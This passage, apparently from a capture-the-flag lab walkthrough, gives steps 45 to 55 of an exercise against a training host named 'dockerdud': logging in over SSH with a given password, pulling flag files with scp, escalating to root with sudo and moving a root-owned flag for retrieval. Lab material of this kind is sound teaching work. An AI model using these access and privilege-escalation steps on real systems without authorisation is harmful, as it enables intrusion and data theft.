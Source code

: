 45. Now unmount `/mnt`:

    ```shell
    umount /mnt
    ```

46. Ok - let's use the access we have on the host. Open a new terminal window or tab on your Kali system and run:

    ```shell
    ssh theplague@dockerdud
    ```

47. When asked for a password, enter `theplague`:

    ```
    theplague
    ```
    
48. Run `ls` and notice that there's a flag file waiting for you:

    ```shell
    ls
    ```

49. Start up another terminal window or tab and use `scp` to pull the flag file to your own system - you can enter `theplague` when asked for a password:

    ```shell
    scp theplague@dockerdud:FLAG.jpg ~/Desktop
    ```

50. Click the file manager icon - it looks like a folder.

51. Click the Desktop icon, then click the `FLAG.jpg` icon to view it.  Leave this file manager running, please.

52. Go back to your `ssh` session and escalate to `root`:

    ```shell
    sudo su -
    ```

53. You're now in `root`'s home directory, as `root`.  List the directory contents:

    ```shell
    ls
    ```

54. Let's move that `FLAG.gif` file into `theplague`'s home directory so we can pull it down with `scp`:

    ```shell
    mv FLAG.gif /home/theplague
    ```

55. Change the file's owner to `theplague`, so we can use `scp` to pull it down:

    ```shell
    chown theplague /home/theplague/FLAG.gif
    ```
